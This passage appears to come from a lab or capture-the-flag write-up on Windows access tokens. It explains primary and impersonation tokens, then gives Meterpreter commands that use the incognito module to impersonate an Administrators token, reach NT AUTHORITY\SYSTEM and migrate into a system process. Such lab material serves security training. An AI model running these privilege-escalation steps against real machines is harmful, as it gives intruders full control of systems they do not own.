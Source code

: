 There are two types of tokens:
* Primary access tokens: These are assigned to the user when the user authenticates
* Impersonation tokens: These are used by a particular process to grant privileges using the access token of another user or process

Three levels of impersonation tokens:
* SecurityAnonymous: Current user/process cannot impersonate another user/process
* SecurityIdentification: Current user/process can get the identity of another user/process, but cannot impersonate that user/process
* SecurityImpersonation: Current user/process can impersonate another user/process's security data on the local system
* SecurityDelegation: Current user/process can impersonate another user/process;s security data on a remote system

A deeper dive into tokens can be found [here](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

And a more in depth resource regarding token abuse can be found [here](https://www.exploit-db.com/papers/42556),

#### Abusing tokens on the target

We can view the privileges of the user we are logged in as with the following command.
```
whoami /priv
```

Two interesting privleges are listed, SeDebugPrivilege and SeImpersonatePrivilege. We can use the incognito command in our meterpreter shell to abuse these privilege tokens. To do that, use the following command in your meterpreter shell.
```
load incognito
```

Now in the meterpreter shell, we can use the following command to get a list of available tokens.
```
list_tokens -g
```

We can see that the BUILTIN\Administrator token is available. Use the impersonate_token command to impersonate this token.
```
impersonate_token "BUILTIN\Administrators"
```

Now we are system according to the getuid command.
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

The last step is to migrate to a process with root permissions. Since windows uses the primary token for privileges to determine what the process can and cannot do, this is necessary. The easiest process to migrate to to accomplish this is services.exe.
```
meterpreter > ps

Process List
============

 PID   PPID  Name      Arch  Session  User        Path
 ---   ----  ----      ----  -------  ----        ----
 0     0     [System
             Process]
 4     0     System    x64   0
 396   4     smss.exe  x64   0        NT AUTHORI  C:\Windows\
                                      TY\SYSTEM   System32\sm
                                                  ss.exe
 524   516   csrss.ex  x64   0        NT AUTHORI  C:\Windows\
             e                        TY\SYSTEM   System32\cs
```